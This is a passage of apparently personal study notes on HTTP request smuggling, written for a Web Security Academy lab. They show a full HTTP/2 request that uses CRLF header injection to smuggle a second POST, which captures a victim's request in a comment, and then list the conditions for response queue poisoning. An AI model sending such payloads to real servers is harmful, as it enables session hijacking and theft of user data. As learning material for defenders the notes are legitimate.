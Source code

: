 The whole attack could look something like this then:
```
POST / HTTP/2
Host: ac911fac1f5ce3cfc0aad76700b8000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Foo: bar\r\nTransfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: ac911fac1f5ce3cfc0aad76700b8000b.web-security-academy.net
Cookie: session=HG68MFOOmXSmX1Hbj3sLva7bjNvCTZk1
Content-Length: 850

csrf=sen76c8yMdE7ObsTvuWBOpMfeWi7rW2M&postId=9&name=a&email=a@asdf.com&website=&comment=


```

## Response Queue Poisoning
stuff

Three criteria must be met for the attack to work:
* The TCP connection between front- and back-end server is reused
* The attacker is able to smuggle in a complete, standalone request that receives its own distinct response
* The servers do not close the TCP connection upon receiving an invalid request

